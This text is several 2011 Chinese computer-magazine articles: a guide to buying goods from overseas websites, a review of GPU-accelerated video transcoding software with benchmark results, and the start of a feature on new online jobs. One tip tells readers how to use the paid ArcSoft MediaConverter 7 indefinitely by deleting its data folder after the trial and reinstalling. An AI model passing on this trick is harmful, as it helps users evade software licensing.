至于关税，从2010年7月海关出台新的通关政策以来，要完全规避关税是不现实的，每家都有一定比例的会被抽查，只是一个几率问题。其中华人快递相对比较低，请各位一定要抛弃可以免税的观点。如果哪家快递宣称一定免税或者包税，那说明这家在别的方面肯定有缺陷，比如丢包率等。

重量单位换算可去这个地址查询 http://www.123cha.com/unit-converter/length.php。

**网络大补贴：**
美国华人快递转运网站列表（http://www.haigouqu.com/forum.php?mod=viewthread&tid=986&extra=page%3D1）

## 开篇 开始海外购物之旅

**关键词：直购 转运 代购**
国际网购可以分为三种形式，一种是国外网站直购，一种国际转运，另一种是第三方网站代购。

### 海外官网直购攻略

以美国为例，许多连锁百货公司（如walmart、Macy's、Sears）和Nike、Polo、Adidas、Gucci等品牌店都设有online shopping，网店的东西比实体店只多不少还更为便宜。除此之外，更为大家所知的就是ebay和Amazon这样的专业网店，这些网店类似于中国的淘宝，价格相对于百货公司有时更便宜。网友可以直接在海外网站上下单、支付、配送。大型网站在选择了国家/地区后，会自动算出邮购费用。直购的步骤和在国内官网购买的步骤类似，这里说一下不同之处。

- 1. 进入网站后，可以看到商品分类，可以选择或直接search想要的商品，如果是想要淘白菜，就找找有没有clearance或sales的按钮（通常在右上角），那就是特价商品了。中间购物流程与国内类似。
- 2. check out后填写个人信息时，除了Road、Street之类，所有的资料都用拼音填写，地址填写一定要注意书写顺序，先写街区，再写城市名，和中文书写习惯刚好相反，邮编很重要，记得一定要填写正确。
- 3. 选择配送方式。配送方法第一种是国际普通邮件包裹，它是通过国际邮件服务投递到目标国家地区，再由当地的邮政系统送到用户手上，这个方式费用高，但无附加费用，发送时尽可能一次性把订购的商品送到家，这样可能有些商品先配到货了却要等配货期长的到货后才能一起发。第二种是DHL等国际快递，路上的时间缩短很多，但可能需要收取额外费用。发送时是先到先发，无需等待，但会收取一定的费用。
- 4. 选择支付方式。可以选择前文介绍的双币信用卡支付，也可以通过Paypal支付。
- 5. 不少网站都在邮寄费用之外收取一定的手续费，即handling fee（也有把其直接加入邮费中，统称S&H-shipping handling），一般都在很不起眼的位置上以小字登出，务必查看清楚，在最后网上支付前看INVOICE上是否有此说明，专业购物网站的handling都不低，USD9.99~15.99都属正常。

折成人民币也是一笔不小的数字呢。

### 转运澳洲原装奶粉攻略

相比直购而言，国际转运方式是本人的大爱，不仅运费比直送便宜很多，还解决了不支持国际配送商家的运输问题，全程自助，很放心，选择面很广。

随着奶粉危机愈演愈烈，奶粉问题成为许多人的心头痛。淘宝上的进口奶粉鱼龙混杂，真假难辨。国内卖场一些热炒的有机奶粉，实际上并不是国外的主流奶粉，而且据说同一品牌的奶粉在国内和海外的原料是不同的，所以爱宝宝的妈妈还是直购来得放心。下面就以澳洲奶粉为例，教大家如何通过国际转运方式，从海外直接购买原装奶粉。

- 1. 以澳洲流行的KARICARE GOLD+3阶段为例，首先注册澳洲知名网站chemistwarehouse（https://www.chemistwarehouse.com.au），然后搜索karicare。
- 2. 在搜索结果中找到要买的KARICARE GOLD+3奶粉，点击“buy”。
- 3. 数量选择“6”，利用网站的运费预估计算器（Shipping Charge Estimator），可以预估出大约发到转运公司的运费。这里输入提供的转运地址邮编2220，邮费为$7.6。
- 4. 点击Check Out，需要选择shipping address，这个地址一般在注册账号的时候就已经写上，所以直接默认为转运公司的地址就可以了。
- 5. 然后就可以一路“next”下去，这里的shipping method仍旧默认为刚才在计算器里面看到的$7.6澳币。
- 6. 接下去是支付，选择“credit card”支付方式，然后填上你的信用卡卡号，点击底部的“pay now”就支付成功啦！
- 7. 过几个小时后收到商家的扣款短信。
- 8. 商家审核通过，UPS发货。
- 9. 转运处收到包裹，支付转运费。
- 10. 转运发货，6天后到达北京。
- 11. 快递送货上门。
- 12. 购物成功，宝宝吃得开心，妈妈也超有成就感！

加上运费算下来大约180元人民币一罐，比在国内买合资奶粉还便宜不少！

### 代购网站购买美国大牌攻略

从直购到转运对语言都有一定要求，对于不懂英文又很想海淘的淘友来说，代购网站也是不错的选择。最原始的海外代购就是托国外的朋友去购买国外的商品，久而久之全职帮忙跨境购买商品的中介开始出现了，也就是今天我们说的海外代购。代购公司一般帮你搞定了物流和商品选择方面的问题，一次到手，不需要关心许多杂事，当然，省事的同时是需要支付代购费的。

深受国内消费者青睐的一些欧美品牌如Coach、CK、Guess、AE、Gap、Levis等，在美国其实非常普通，一般在大卖场就可以买到，而且常年都有促销打折活动，价格比国内便宜一半都不止，就算是国际一线品牌，国外的价格也会比国内商场便宜上千元。

下面就以美国购物网为例，教大家如何通过代购网站购买国内动辄几千元的大牌包包Coach。

- 1. 打开美国购物网，搜索Coach，可以看到Coach包包列表，价格都比国内的市场价有不同程度的优惠。
- 2. 选择所需的款式，中间的操作步骤与淘宝非常类似，页面全部中文，这里就不赘述了。
- 3. 支付时可选择支付宝，也可选择网银，代购网无需申请双币信用卡，支持单币信用卡。
- 4. 货物从纽约发过来，收货日期一般为7-14个工作日。
- 5. 购物中有任何不明白之处，有全天在线的中文客服，可以解答所有问题。

这里，由于Coach在打折促销，网站所标价格就是最终的到手价。如果网站上没有满意的款式，还可以通过网站上的链接，去自己喜欢的名牌官网直接淘，美国官网的价格可比中国官网便宜不少哦！选中合适的款式后，填写代购申请单，也就是相当于自己到国外网站买东西，然后用代购网站提供的海外地址作为收货地址。

## 特别话题
## 《电脑爱好者》合订本

这样就解决了这些网站不给国内送货的问题。最后当然是由代购再帮你将商品从美国运回国内啦。这个程序稍麻烦点，但是省却了用户自己转运、付款、以及语言不通的麻烦。

以美国购物网为例，商品最终价格为网站标价+消费税+代购费+关税+运费。

- 美国境内的消费税，很多代购网站可以免除。
- 代购费为商品标价的10%。
- 中国关税目前有2个方式，一是按照海关出台的税额预收，最后多退少补。二是按照比海关出台的税额低一半的税率收取，为一口价，最后多了由卖家承担，但不提供单独的税单。
- 物品运费为5.5美元/磅（从美国运到中国）。

这样算下来，如果能买到促销或特价款，也还是比在国内购买节省不少，而且现在不少代购网站不取代购费，运费也能拿到比较低的折扣。对于想海淘又怕麻烦的网友来说，可以自由选择合适的方式。

网络大补贴：
代购网站推荐
- 美国购物网 http://www.usashopcn.com
- 毕德代购 http://www.bidbuy.hk
- 亦得代购 http://www.yide.com
- 代购各国亚马逊网站 http://www.worldshop.com/amazon/
- 海外代购精攻略 http://www.dlenet.com/wenzhang/2044

## 进阶篇 开始海外购物之旅
### 关键词：返利 折扣码 特价季

1. 返利。海外购物，其实有很多省钱的方法，通过返利网购物（rebate）就是其中一种。返利网是怎样实现返利的呢？一般来说都是商家在返利网上投广告，然后消费者通过点击返利网上的链接去商家购物。购物成功后，返利网可以从商家拿到提成，同时返利网也会将一部分提成返给消费者。

这里给大家介绍一个美国的返利网站Ebates。

Ebates注册非常简单，上面有些商户最高可达25%的cash back，像有些常用的网站6pm.com，Nordstrom.com，RalphLauren.com也经常有5%-6%的返款。而且注册时有最低$5的奖励，推荐朋友可得到介绍费$5。Ebates支持国际客户，也就是说即使你不居住在美国，也可以享受这项服务。

Ebates的返利有两种方式，一是直接打到PayPal账户，二是直接申请开支票，然后寄到国内。但是不建议在中国的买家拿支票，那么小那么薄的支票从美国飘洋过海过来，不见得可以安全收到，即使丢了Ebates也不会重新寄发的，那就等于利白返了。

支持中国的国外返利网站主要有两家，一家是Mrrebates (http://www.MrRebates.com)，一家是Ebates。通常Mrrebates要比Ebates返利点要高一些，但是Ebates也有做活动反而比Mrrebates高的时候，在使用返利网时可以注册两家，因为每家的返利百分比是不一样的，可以比较一下哪个返利多。记得购物时一定要通过返利网站的链接点击进入想去的购物网站，否则就享受不到返利了！

小贴士：
返利周期一般为3个月，因为美国网上购物的退换货周期是3个月，以免有些东西退了，但是返利却拿到了，所以是3个月才结算一次的。
如果返利账号超过5美元，就可以申请PayPal拿钱了。具体方法：登陆Ebates，在My Ebates把个人Address、Email & Password填写完整，地址就输入国内的地址。接着点击Cash Back Method，选Pay me directly(就是直接付给我)，再选PayPal，输入PayPal地址就OK啦。

2. 折扣码。另一种省钱之道就是关注折扣网站，在一些折扣网站上可以找到购物网站的折扣码，在网站购物checkout结算时填到折扣栏内，就能得到一定比率的折扣，可以省不少银子。折扣网站无需注册，可以直接使用。

以美国为例，向大家介绍三个时时更新的折扣网站，在上面可以找到每天最全最热的折扣商品，限时Deal，以及各大网站的Coupon优惠码……这三个网站分别是Deal2Buy、Deal Catcher、Deal Sea。

只需每天浏览这三个网站的网页，若看到心仪的折扣便可直接点击折扣信息中的链接，进入相应网站购买，十分方便。

此外，还要隆重推荐著名的Retailmenot网站(http://www.retailmenot.com/)。在这里可以找到某个特定网站有史以来的所有Coupon优惠码。这样的好处在于：在某个购物网站上购物时，可以比较各个有效Coupon优惠码的确切优惠额度，从而达到资源利用最大化。

使用方法：浏览Retailmenot.com --> 在右上方搜索栏搜索购物网站 --> 通常返回包括目前OFFER，目前活跃的COUPON优惠码，不确定的COUPON优惠码 --> 按时间由近到远依次浏览 --> 结合网友评价挑选出适合你的COUPON优惠码 --> 在购物网站checkout处的Promotional Code填入折扣码（Coupon Code），即可享受到折扣。

### 3. 商品售出后的调价(Price Adjustment)

你是否有过这样的购物经历：自己好不容易下决心购买的心仪商品，不久后却发现自己购买的商品降价了，从而懊悔不已。从国外网站上购物，可能就不会有这样的懊悔了！许多国外网店提供Price Adjustments(价格调整)，只要在期限内与网店联系，即可以客户原付的形式来退还调整的差价。

所以买下网购之后，如果再次登陆时发现该网店的价格下调了，那么请不要懊悔，去找一找该网店的Price Adjustments规定吧。

### 4. 掌握特价季

国外特价一般有好几个季，把握好这几个时间点，多看看deal类的网站，就会有意想不到的便宜货。包括感恩节，情人节，复活节，母亲节，国庆日，万圣节，圣诞节，以及年中(half-year)大促销。这些是比较大的特价季，当然这个节，双休日什么的，特价也会比往常多，要注意把握机会哦！

网络大补贴：
很多美国网站会不定期推出免境内运费的活动，还有一些网站是购满一定金额免境内运费。通过Freeshipping网站（http://www.freeshipping.org/）可及时了解到提供免境内运费的网站的Coupon Code，另外还可以进行比价哦~

## 分享篇 海淘成果分享
### 精明败妈实用海购秘笺

乐妈，全职妈妈，乐妈自称超级败妈。败妈从淘宝到新浪团购都经历了，现在把战场转向了世界各地。

### 海淘年龄：1年

海淘主要产品：明治奶粉，嘉宝米粉，old navy童装，Mam奶，Fisherprice玩具，小蜜蜂护肤品等。

海淘之旅：
国内奶粉出事后，我就决定上淘宝网找代购买国外奶粉。后来听说代购的奶粉也有很多假的，正愁我家小宝日粮安全的问题呢，同事告诉我现在可以直接买国外奶粉给宝宝，也就是自己去海外网站海淘通过转运公司送回来。这实在是一个好消息！为了我家小宝的茁壮成长，海淘之路就这么开始了……
分享下我数次的购物成果：从奶粉、米粉、辅食、按摩油、奶瓶、衣服鞋帽到玩具以及感冒咳嗽药、退烧栓类药物，都是在国外网站下单的。看着这箱零零总总的进口商品，超有成就感！

经验分享：
- 有很多促销信息和折扣信息，一般代购不会给的，自己买的话就会享受到。
- 结算只要有一张Visa卡就OK了，按汇率结算，再付几个点的手续费。如果英镑用得多，也可以办民生银行或深发展英镑的信用卡，日币结算多的话可以办一张中国银行的JCB，许多银行的白金卡比较有用。
- 需要注意的是地址分BILLING ADDRESS（账单地址）和SHIPPING ADDRESS（邮寄地址）。一般情况下两个地址都是些转运公司仓库的地址，但有些网站（比如diapers）要求账单地址必须写在国内的真实地址，甚至还会要求传三页的水电费发票和信用卡账单来核实地址，不照做的话有可能会被取消订单。
- 奶粉，属于敏感物品，一般不要超过6罐，也尽量不要和别的商品一起发，降低被扣风险。

网上购物安全注意事项
海外网购虽好，但并非完全没有风险。下面是个人总结的一些注意事项。

1. 从具有加密的网站上购物。最安全的网站会在网络浏览器上显示一个钥匙或锁图标，表示采用了加密功能。

2. 在点击“购买”前务必要认真阅读小字部分的例外免责条款。

3. 将在线购物信息、收据、网上客服的交谈记录等购物证据保存好，注明所使用的信用卡、所购买商品的送达时间以及商品的退换方法。特别提醒的是，要记住自己是在哪家网店购物，有时购的多了，如果没记录，谁被谁划走的都不知道！

4. 发生纠纷也不要紧，要和销售网站主动联系，寻找解决。这期间涉及信用卡的，可以和自己的发卡银行联系，寻求帮助。

5. 如果购买金额较高，或是易碎品，最好是给包裹加保险。

淘宝店主的代购经
helpself，淘宝兼职美国代购商家
海淘年龄：2年
海淘主要产品：puritan’s pride保健品。
海淘之旅：
近几年国内隔三岔五爆出来的“三聚氰胺，瘦肉精，染色馒头”事件让这些普通小老百姓不得不为食品安全担忧。一向比较顾家的我最在意的还是家人的身体健康，总是找那些在美国的“狐朋狗友”为家人购置保健品和食品。但不想总是麻烦朋友，后来开始尝试自己直接在海外下单购买。
随着购买次数的增多，我开始掌握了不少海外网购的技巧和省钱大法。身边不少朋友也好奇地让我帮着购买和拼单，于是我萌生了做美国代购的想法。我的淘宝小店正式开出，没想到很快就有订单上门。兼职从事代购的我很快就升到了钻石卖家，晒下偶的库存~

经验分享：
- 运费，不同种类的货物续重的运费是不同的。不管箱子里有多少种货物，一律按续重最高的那种计算。另外重量都是按整数计算的，比如3.01磅的东西也会被按4磅计费，所以自己估重很重要。
- 千万别买禁运品！曾给家人买过口服药丸，没想到属于航空禁运品。不要侥幸，就算买了寄过来，也不会落到你手上。易燃易爆的，某些食物、尺寸超规定的……种类很多，建议在网络上查询。

小秋购淘大牌的心得
小秋，长春小白领
海淘年龄：2年
海淘主要产品：雅诗兰黛，施华洛世奇，Coach包包，juicy couture，阿达运动鞋等。
海淘之旅：女人对大牌的恋慕好像小孩对母亲的依赖，是与生俱来的。自从自己在公司升职后，也倒腾着往世界的标准看齐，提高自己爱美的品味。与其砸钱在那些又贵又山寨的国内商场里，不如加入海外网购的潮流大军去。
从打折的Coach女包，雅诗兰黛，到了心仪已久的Juicy couture和比国内专柜便宜50%的施华洛世奇的水晶项链……我的这些超值洋货着实让身边的好友羡慕了大半天呢，嘻嘻。
经验分享：
- 拼单可省快递费。很多支持直运中国的网站买够一定金额都是免运费的，自己买不够可以和朋友拼单，比如美国的AMAZON，境内购物满40美金就免快递费，这个限制是非常低的。我有时拜托在美国的朋友代收，再寄到国内，虽然比较麻烦，但同样的东西仍然少说也要便宜30%，甚至40%~50%都有可能。
- 在EBAY这类国外c2c网站购物，不要只看标价。不排除有些卖家把商品标价得很低，但其余费用都打到运费里，邮费比东西贵多了。这样如果出了问题，卖家虽提供退货服务，但运费是不退的。

海外网购的技巧有很多很多，限于篇幅，本文就不一一详述了，更多的需要自己去慢慢探索和发现。无论你是想第一时间购到全球最热单品的海淘达人，还是想为宝宝亲身采购国外安全奶粉的妈妈，或是身在内想采购国外小商品的代购达人，这里都有你的广阔天地！

策划/《电脑爱好者》编辑部 监制/Justdo 撰稿/掌门人

## 硬件加速来帮忙 高清转码无需漫长等待 ——视频编码硬件加速全攻略

《变形金刚3》来了、《哈利波特与死亡圣器2》也来了……每年的大片这么多，哪有时间一一看完啊，于是上学和上班的路上我们都在抓紧时间使劲看片，现在大家的手上都有各种智能手机、PSP或者平板电脑之类的看片利器，如何利用好它们欣赏大片，就是今天要讨论的话题。

### 转换视频的理由

现在的电脑都能够播放1080p高清影片了，连很多手机也具备了720p甚至1080p的播放能力，那么是不是就不需要视频转换了呢？答案显然是否定的，我们现在和将来都还需要视频转换。理由我们可以分析如下：

### 常见产品高清播放支持情况

| 设备名称 | 分辨率 | 格式 |
| :--- | :--- | :--- |
| 苹果iPad 2 | 720p | H.264格式<br>30帧/秒 Main Profile level 3.1 |
| 苹果iPhone 4 | 720p | H.264格式<br>30帧/秒 Main Profile level 3.1 |
| 摩托罗拉Atrix (ME860) | 1080p | 30帧/秒 |
| 三星Galaxy SⅡ (i9100) | 1080p | 30帧/秒 |

1. 绝大多数的移动设备还是只能播放较低分辨率电影，例如存量很大的PSP，各种MP4，以及普及率很高的非高端手机。
2. 即便是可以播放高清的高端手机，其存储空间也很有限，而电脑上常见的高清视频动辄十几GB以上。
3. 即便手机空间很大，但传送这么大的文件会非常慢，而且Android等智能平台只支持FAT格式的存储卡，不能存放4GB以上的大文件（苹果设备如iPad和iPhone无此限制）。
4. 高清视频编码和封装的格式较为复杂，很多掌上设备标称支持高清，但并不是支持所有的格式（例如iPad原生仅支持MP4格式），往往仍需要转换的过程。
5. 有些朋友会说网上能下载到专门为iPhone或者PSP转换好的视频，可是并不是所有的电影都有，而且不一定就支持你的掌上设备，清晰度也不一定符合要求，所以多数时候还是得自己动手才行。

由此可知，掌上设备毕竟和电脑有着很大的区别，直接使用电脑上的高清视频是不太合适的，所以视频转换是必不可少的。视频转换实际是将原本的高清视频的编码和封装格式都按照适合掌上设备的格式重新编码，转换之后对设备的性能要求降低，视频文件体积也会大大缩小。
不过视频转换一直以来都是个很吃硬件的工作，即便是用现在最强大的CPU转换一部完整的高清视频可能也需要好几个小时的时间。现代人工作学习都很忙，想在公交车上看一会儿电影却需要花几个小时来准备，那也太不划算了。
不用愁，请接着往下看！

### 高清有硬件解码也有硬件编码

熟悉电脑硬件的朋友一定知道高清硬件解码这个概念，由于以前的电脑CPU性能较弱，流畅播放1080p高清视频颇为吃力，而硬件解码则是利用显卡中GPU的性能来帮助高清解码（相对的用CPU解码叫做软件解码），这样不光可以流畅播放高清视频，还大大减轻了CPU的负担，让电脑可以同时进行其他工作。
而硬件编码也是类似的道理，利用GPU的强大性能帮助或替代CPU的角色来进行视频编码，不光可以把CPU从繁重的任务中解放出来，更能节省成倍的时间，在这个时间越来越值钱的时代，显然硬件编码更具有实际意义。
此外，如果你已有的显卡支持硬件编码，看了本文之后并不需要额外的花费就能节省大量时间，也算是充分榨取了手中硬件的价值，可谓划算。

### 硬件加速编码三大阵营

原本显卡硬件加速编码的世界里只有NVIDIA和AMD两个对手，而现在Intel也气势汹汹地加入了，只要是Sandy Bridge构架的CPU均能使用其内置的“高速视频同步技术 (Quick Sync Video)”来实现硬件加速编码，下面大致介绍一下它们的渊源。

#### NVIDIA CUDA

CUDA并不单单只能加速视频编码，它是NVIDIA开发出来的一种并行计算架构，简单来说就是让程序员们通过这项技术使用GPU来运行各种程序，使其替代CPU的角色。CUDA在超级计算机等行业运算中颇为常见，用于科学研究等用途，但对我们普通消费者来说最主要的用途还是加速视频转换。

#### AMD APP

APP就是ATI之前的Stream技术的升级版本，它基于开放性的OpenCL标准，功能和NVIDIA的CUDA类似，也可以用于各种科学计算。对于支持它的视频编码软件自然也可以起到加速的作用，要使用它需要在AMD网站上下载Avivo安装包。

#### Intel Quick sync Video

Quick Sync Video是第二代智能英特尔酷睿处理器（也就是我们常说的Sandy Bridge）中附带的新功能，和前面两家的不同，它是专门用于加速视频编码的，而且加速效果极为明显，成为了Intel在宣传Sandy Bridge处理器时的一大卖点。

### 硬件编码准备工作

#### 第一步：确认硬件是否支持

首先当然要确认自己的硬件是否支持视频编码加速了：

1. 对于NVIDIA显卡用户，只要是GeForce 8系列之后的显卡就能支持CUDA了。
2. 对于AMD显卡用户，只要是Radeon HD 2000系列之后的显卡就支持APP了。
3. 对于Intel核芯显卡用户，必须要Sandy Bridge处理器才支持Quick Sync Video。

#### 第二步：更新驱动程序

接下来要做的是将显卡的驱动程序都更新到最新版本，NVIDIA和Intel的不用多说，直接进入其官方网站找到对应自己显卡的驱动程序下载安装即可。但AMD还需要额外下载一个视频编码的安装包，在AMD网站找到显卡驱动之后，点击右侧的“可选下载”，下载其中的“Avivo安装包”，安装好之后在显卡驱动管理界面（Catalyst Control Center）中会出现视频编码的工具。在这里也可以直接进行视频编码，但功能较为简单。

#### 第三步：寻找适合的转码软件

什么样的转码软件适合我们这些掌上设备用户？根据实际情况我们可以提出以下一些要求：

1. 首先肯定要支持硬件加速编码才行，很多转码软件不支持硬件加速编码，也有些不会同时支持前面提到的三种硬件加速编码。
2. 要能让普通用户都能快速上手使用。视频编码原本是一项很专业的工作，编码格式有H.264、MPEG 2、VC1等多种，每种又会分为更多更细的规范；此外如果码率太高的话掌上设备无法播放，码率太低的话画质又不好——这些都是普通用户很难掌握的。
3. 输出格式根据掌上设备型号而定。玩家在选择输出格式时不用费心考虑编码格式、码率、分辨率等，而是直接选择自己的掌上设备型号，例如iPhone 4，这样方便得多，也不用担心转出的视频iPhone 4播放不了。
4. 转码软件的界面要简单易用，有些朋友会使用视频编辑软件（如“会声会影”等）来转码，其实是大可不必的，那些软件是较专业的编辑工作才需要，我们只是想转换一下编码格式，操作简单更重要。
5. 最好带有加载字幕的功能。高清视频一般都不带字幕，在电脑上观看需要外挂字幕文件，但很多掌上设备（如iPhone等）是不能使用外挂字幕的，如果在编码时能将字幕文件直接嵌在视频中，就会很方便了。

#### TIPS：关于手机使用字幕文件

iPhone自带的播放器虽然不能使用外挂字幕文件，但是安装了VLC等第三方视频软件之后则可以。不过苹果设备中对字符的编码是有另外要求的，只能识别UTF-8编码格式，否则就是乱码。我们可以在Windows中把SRT格式的字幕文件转换为UTF-8，使用方法为：用记事本打开SRT文件，菜单中选择“另存为”，在编码处选择UTF-8并保存。Android系统自带播放器也不能直接加载字幕文件，需要使用Diceplayer等第三方播放器才行。

### 编码推荐

国产软件 完全免费 MediaCoder
下载地址：http://www.mediacoderhq.com
支持硬件加速编码：NVIDIA CUDA, Intel Quick Sync Video
易用程度 ★★★## 视频转码软件实战对比

功能丰富 ★★★☆☆
编码速度 ★★☆☆☆

首先介绍MediaCoder是因为这是一款国产的免费软件，并且可以加载字幕文件直接将其嵌入视频中。它的设置选项可谓十分丰富，不过也是这些过于复杂的功能让初级玩家颇为头疼。而且在选择输出格式时MediaCoder并不能针对具体的掌上设备型号来选择，还得玩家自己慢慢琢磨。另外，我们在测试时发现MediaCoder转换时的速度很慢，同样的视频格式下其他软件只需15分钟完成的工作MediaCoder需要30多分钟，有些遗憾。

## 使用简便 转换迅速 Badaboom 2

下载地址：http://www.badaboomit.com/
支持硬件加速编码：NVIDIA CUDA, Intel Quick Sync Video
易用程度 ★★★★☆
功能丰富 ★★☆☆☆
编码速度 ★★★★☆

Badaboom 2是最早支持CUDA加速的软件之一，如今也支持Intel Quick Sync Video了，但在其网站介绍中并没有找到对AMD APP技术的支持。软件的界面十分友好，输出格式中提供了20多种型号的设备供选择。在转换速度方面Badaboom 2也令人满意，勾选“图形加速”之后能够提升好几倍的转码速度。
该软件可以直接将高清视频文件或者DVD光盘转换成需要的格式，但没有提供字幕加载功能，并且不支持MKV等网络常见格式，也没有批量转换的功能。

## 功能齐全 界面易用 ArcSoft MediaConverter 7

下载地址：http://www.onlinedown.net/soft/86530.htm
支持硬件加速编码：NVIDIA CUDA, Intel Quick Sync Video, AMD APP
易用程度 ★★★★★
功能丰富 ★★★★☆
编码速度 ★★★★☆

这款软件可以几乎满足了我们前面提到的所有要求。它支持三种硬件加速编码技术，输出格式可以直接选择数十种硬件设备，其中除了常见的掌上智能设备，还包含了PS3、Xbox 360游戏机和一些较冷门的MP4。ArcSoft MediaConverter 7可以直接将DVD和DV中的视频转换成需要的格式，可以添加字幕文件嵌入视频中，同时还支持多个视频文件批量转换，基本是该有的功能都有了。
不过ArcSoft MediaConverter 7是款收费软件，提供了15天的免费试用期，这么好的软件玩家们可以下载下来体验一下。
此外，另一款软件CyberLink MediaEspresso也具备和ArcSoft MediaConverter 7类似的功能和性能，但不能嵌入字幕，并且也是收费软件，这里就不再特别介绍。

## 测试结果

硬件 转码时间

| 硬件 | 转码时间 |
| --- | --- |
| GeForce GTX 550Ti | 17分11秒 |
| Radeon HD 6570 | 9分48秒 |
| i7-2600k硬件加速 | 7分20秒 |
| i5-2300硬件加速 | 5分37秒 |
| i7-2600k软编码 | 14分2秒 |
| i5-2300软编码 | 15分13秒 |

硬件 CPU占用率

| 硬件 | CPU占用率 |
| --- | --- |
| GeForce GTX 550Ti | 33% |
| Radeon HD 6570 | 84% |
| i7-2600k硬件加速 | 15% |
| i5-2300硬件加速 | 40% |
| i7-2600k软编码 | 76% |
| i5-2300软编码 | 100% |

46 电脑爱好者 合订本·2011

## TIPS: 免费使用ArcSoft MediaConverter 7

如果不怕麻烦，也有方法可以不限时间免费使用ArcSoft MediaConverter 7，方法就是十五天试用期之后卸载软件并且删除C:\Documents and Settings\All Users\Application Data\ArcSoft这个目录下的所有文件（Windows 7系统），然后重新安装软件。

## 第四步：开始转换视频

从前面的三款软件的对比，很明显最符合掌上设备要求的就是ArcSoft MediaConverter 7了。使用它可以方便地转换出各种流行设备能够直接播放的视频，不用复杂的视频参数设置；由于支持主要的三种硬件加速视频编码，可以为我们节省大量的时间；而且它可以批量转换多个视频，还能将字幕文件直接嵌入视频中，不支持外挂字幕的掌上设备也能方便地观看外语大片。所以下面我们就专门介绍一下它的使用方法。

- 1. 从前面提供的网址下载的ArcSoft MediaConverter 7是较早的版本，还不提供对Intel Quick Sync Video的支持，所以安装好之后第一件事就是软件更新。点击软件界面右上角的齿轮图标，选择“检查更新”就会弹出软件更新的窗口自动下载数据，更新一次之后再选择“检查更新”还会继续下载更新数据，这样的操作需要重复做好几次，直至升级到最新的版本。
- 2. 最新版的ArcSoft MediaConverter 7在软件界面的右下角会出现“硬件加速”下拉菜单，如果你的电脑硬件支持编码加速，就可以在其中选择相应的选项，例如NVIDIA CUDA或者Intel Quick Sync Video。
- 3. 在软件界面的左侧有多种视频来源可选，例如DVD光盘和DV摄像机，多数朋友自然应该选择其中的“视频”，然后浏览到硬盘上的高清视频文件。该软件支持批量转码，所以我们可以同时添加多个视频文件在里面。
- 4. 选择好视频文件后，在文件列表处会出现“加载字幕”的选项，点击并浏览到相应的字幕文件就会在转码的过程中将字幕嵌入视频中。目前该软件仅支持SRT格式的字幕文件，同时还可以选择音量的大小，这点千万不要忽视，因为默认的音量是很小的。
- 5. 点击屏幕右侧的“选择输出”就会出现很多的设备图标让你选择，例如各种手机和MP4等，找到自己的设备并点击完成即可。
- 6. 点击右下方的“设置”，会出现更详细的选项，例如针对iPhone 4的视频输出格式就有三种。如果你想获得更好的画质，就选分辨率和画质最高的那项，转出来的文件体积也会大一些；如果你比较熟悉视频格式方面的知识，也可以点击“新建配置”制作符合自己要求的配置文件。
- 7. 以上工作都做完之后，点击主界面下方的“Start”就正式开始转码了。点击“Start”右侧的小三角还有更多选项，例如完成转码后自动关机，如果你晚上想在睡觉时让电脑自己转码，这项功能就很重要了。

## 三大硬件加速技术比拼

本文的目的是让读者们充分利用好自己手中的硬件，不要浪费了视频编码加速的这项功能，并不是要让大家为了这项功能专门去购买这些硬件。不过讲了这么多，相信大家还是都很想知道三种硬件加速编码技术到底谁能强大。所以我们很有必要通过测试来比较一下，可以从转换速度和视频画质两个方面来考核。

## 测试平台

NVIDIA CUDA的加速性能与GPU芯片内部的流处理器数量成正比，也就是说越高档的显卡加速性能越高。为照顾大多数玩家的实际情况，我们选择GeForce GTX 550Ti这块中档主流显卡来参加测试。
AMD APP的加速性能与GPU的档次关系并不大，也就是说同一代GPU的中档新品与高档新品加速性能差不多，所以我们使用了性价比较高的中档显卡Radeon HD 6570参加测试。
Intel的GPU核心分HD 2000和HD3000两种，而Quick Sync Video加速技术是同时使用CPU和GPU进行工作的，CPU部分对转码的速度也有影响。所以我们选择了高端的i7-2600k（四核八线程，内置HD3000）和中档的i5-2300（双核四线程，内置HD2000）分别测试。

## 测试项目

硬件加速视频编码速度的测试方法为：使用ArcSoft MediaConverter 7软件将一段1080p高清原片转换为可供iPhone 4播放的720p视频，高清原片的体积为9.4GB，视频长度为44分钟，转换后的视频格式为H.264编码MP4封装，码率为4MB，体积1.3GB。
分别使用NVIDIA、AMD和Intel的硬件重复运行以上测试，记录时间和CPU占用率，并分析视频画质。同时使用CPU进行软编码，得出测试结果作为参考。

## 结果分析

## 加速效果比较

- 1. 由以上数据可以非常清楚地看到，使用Intel Quick Sync Video进行编码加速是最快的，AMD APP次之，而NVIDIA CUDA编码的速度甚至比i5处理器软编码还慢。
- 2. 不过仔细观察CPU占用率，会发现AMD APP的在编码时CPU占用率仍然很高，相当于是CPU和GPU都在全速运转，而NVIDIA CUDA则是主要使用GPU在工作。
- 3. 此外，还发现一点很有意思的现象，i7-2600k在硬件加速编码时比i5-2300要慢近两分钟，但CPU占用率要比后者低。这说明Quick Sync Video也是CPU和GPU同时工作的，但中档的i5-2300比高端的i7-2600k更多地依赖CPU，所以编码速度会更快。这是软件自动调用硬件资源的结果。

## 画质比较

通常来说CPU软编码的画质是最好的，以此为参照通过画面放大观察，Intel Quick Sync Video编码的效果是很接近软编码的，NVIDIA CUDA次之，放大之后的画面中有较轻微的马赛克和锯齿现象，不过在掌上设备的小屏幕中不容易察觉；而AMD APP编码虽然速度很快，但画质却是最差的，在很多时候不用放大画面也能看出其中的模糊现象。

| 加速技术 | 编码速度 | 画质 |
| --- | --- | --- |
| NVIDIA CUDA | ★★★☆☆ | ★★★☆☆ |
| Intel Quick Sync Video | ★★★★★ | ★★★★☆ |
| AMD APP | ★★★★☆ | ★★★☆☆ |

## 总结：

通过本次的讨论，大家已经清楚认识到硬件加速编码的好处，了解到哪些软件适合用来给掌上设备转换视频，以及各种硬件加速编码技术的差别，相信现在绝大多数玩家拥有的硬件都是可以支持一种或者两种硬件加速编码的，那就不要浪费了它们，充分使用它们为自己的掌上设备服务吧。
作者/老范 壮壮 文杰

## 揭秘你所不了解的网络新职业

## 印客——个性印制引领者

随着网络的兴起，各种新奇的网络职业也展现在我们眼前。“印客”、“威客”、“拍客”一个个奇怪的职业，给网络和现实交织的人们带来了不寻常的新生活。本期就让我们走进他们的生活，聆听他们成功与失败的背后又有怎样的辛酸故事。通过“客”的故事揭秘你所不了解的网络新职业。

资深印客资料
叙述人：陈寒川
年龄：28
行业：自由职业
做印客时间：6年

